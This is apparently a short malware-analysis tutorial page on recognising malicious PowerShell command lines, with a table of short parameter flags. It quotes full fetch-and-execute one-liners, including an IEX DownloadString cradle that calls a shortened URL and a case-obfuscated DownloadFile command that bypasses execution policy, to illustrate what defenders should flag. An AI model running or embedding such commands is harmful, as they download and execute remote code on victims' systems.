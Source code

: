 ```yaml
---
title: Powershell 101 in Malware Analysis
tags: Malware-Analysis
---
```


PowerShell attacks are currently the popular weapon of alternative for several of those attacks as a result of it provides variety of techniques for bypassing existing security. Not least of all, the flexibility to run directly in memory and remotely download payloads gave a lot of benefits to attacker.

Let's learn a little bit about Powershell malicious command line.

# Download
```
powershell -nop -noe -Command IEX (New-Object System.Net.WebClient).DownloadString('https://tinyurl.com/y5nupk4e')
```
Powershell command that are use to download "something" can be consider as a high potentially of a malicious attack. The command above indicate that the command is run to download strings (payload) at URL `https://tinyurl.com/y5nupk4e`. A goodware will never do such a thing to download their file using powershell command.

# Lower and upper case letters
```
Powershell -ExecUTIONPoLICy BypASs -wiNDoWSTYLe hidDeN(NEW-objecT.SYstEM.NET.wEbCLIeNt).DOWnLoADFiLE(<removed>);
```
This pattern of powershell is using alternating lower and upper case letters to execute their command. It's a high potentially of a malicious command when it come with this pattern.

# Using short flags

```
Powershell -nop -w hidden -e <encoded text>
Powershell -nop -w hidden -e <ps1 file>
```
Sometimes, this pattern of command uses by goodwares to does their job backgroundly. If the command included a long encoded text, I can 100% sure that those command is a malicious. Legit software will never use encoded text to execute it's job.

For `.ps1` part, recognizing the location of the ps1 file and its name can help us to determine it's a malicious or not. If you can get the hash of the `.ps1`, drop it into Google/Virustotal/Sandbox to futher investigation.

Short flags reference:

| Parameters | short parameters |
| --- | --- |
| -Command | -c | 
| -EncodedArguments | -ea, -encodeda | 
| -EncodedCommand| -e, -ec, -enc | 
| -ExecutionPolicy| -ex, -ep | 
| -File| -f | 
| -Help| -h,-? or /h,/? | 
| -InputFormat| -i, -if | 
| -NoExit| -noe | 